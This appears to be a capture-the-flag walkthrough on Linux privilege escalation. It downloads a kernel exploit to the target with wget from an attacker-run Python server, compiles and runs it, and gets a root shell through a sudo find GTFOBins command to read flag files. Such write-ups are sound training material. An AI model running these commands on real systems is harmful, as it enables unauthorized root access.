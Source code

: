 #### Get the kernel version
```bash
uname -a
```

Then download it from [Exploit-DB](https://www.exploit-db.com/)

#### Start a python server
```bash
python3 -m http.server
```

#### Go to `/tmp/`

```bash
cd /tmp/
```
#### Download it to the machine
```bash
wget {ip}:8000/exploit.c
```

#### Compile and run
```bash
gcc exploit.c
./a.out
```

#### Get the flag
```bash
cat /home/matt/flag1.txt
```

---
# Privilege Escalation: `Sudo`

#### *First*
```bash
sudo -l
```

There are three binaries can run as root
#### [GTFOBINS](https://gtfobins.github.io/)

Let's use the find command to get the root
```bash
sudo find . -exec /bin/sh \; -quit
```
Now we are root!

#### Get flag2
```bash
cat /home/ubuntu/flag2.txt 
```
